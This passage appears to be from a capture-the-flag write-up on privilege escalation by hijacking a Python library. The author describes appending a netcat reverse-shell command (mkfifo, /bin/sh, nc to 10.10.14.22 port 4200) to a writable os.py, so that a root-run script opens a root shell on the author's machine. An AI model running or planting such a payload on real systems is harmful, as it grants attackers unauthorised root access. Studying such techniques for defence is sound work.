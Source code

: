 Since I have write access to this file, I added the following line to the end of os.py to execute an os command to create a reverse shell to my machine.

```
vi /usr/lib/python2.7/os.py
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 4200 >/tmp/f")
```
When the root account ran reporter.py it imported os.py and executed the command to create a reverse shell and as a result called back to my machine to give me a shell as root.

![image](https://user-images.githubusercontent.com/10210108/81485617-4f931400-921c-11ea-940f-2497cf9d6b44.png)
